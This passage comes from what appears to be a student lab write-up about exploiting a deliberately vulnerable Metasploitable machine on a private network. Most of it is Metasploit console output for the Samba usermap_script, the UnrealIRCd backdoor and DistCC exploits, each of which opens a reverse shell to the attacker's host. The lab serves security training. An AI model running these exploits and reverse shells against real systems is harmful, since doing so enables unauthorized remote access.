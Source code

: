 ```shell
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 192.168.10.4:4444 
[*] Command shell session 1 opened (192.168.10.4:4444 -> 192.168.10.5:50400) at 2024-05-18 16:21:11 -0400
Vulnerability [Fourth]: UnrealIRCd 3.2.8.1 (Port 6667)
CVE-2010-2075: UnrealIRCd 3.2.8.1 contains a backdoor that allows remote code execution.

Evidence of Exploit:
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RHOST 192.168.10.5
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set RPORT 6667
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set LHOST 192.168.10.4
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload cmd/unix/reverse
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
[*] Started reverse TCP double handler on 192.168.10.4:4444 
[*] 192.168.10.5:6667 - Connected to 192.168.10.5:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.10.5:6667 - Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo l9Iv1MQB8hXLLC27;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "l9Iv1MQB8hXLLC27\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.10.4:4444 -> 192.168.10.5:58257) at 2024-05-18 16:37:26 -0400
Vulnerability [Fifth]: DistCC Daemon (Port 3632)
CVE-2004-2687: DistCC Daemon contains a remote code execution vulnerability.

Evidence of Exploit:
msf6 > use exploit/unix/misc/distcc_exec
msf6 exploit(unix/misc/distcc_exec) > set RHOST 192.168.10.5
msf6 exploit(unix/misc/distcc_exec) > set RPORT 3632
msf6 exploit(unix/misc/distcc_exec) > set LHOST 192.168.10.4
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
msf6 exploit(unix/misc/distcc_exec) > exploit
[*] Started reverse TCP double handler on 192.168.10.4:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 1CDyuUd44ococlzz;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "1CDyuUd44ococlzz\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.10.4:4444 -> 192.168.10.5:47525) at 2024-05-18 18:19:05 -0400
Conclusion
This lab focused on identifying and exploiting vulnerabilities in a network using various tools like Nmap, Nessus, and Metasploit. The primary tasks included scanning services, identifying vulnerabilities, and demonstrating successful exploits. The findings provide insights into the importance of regular updates and patch management in maintaining network security.
msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
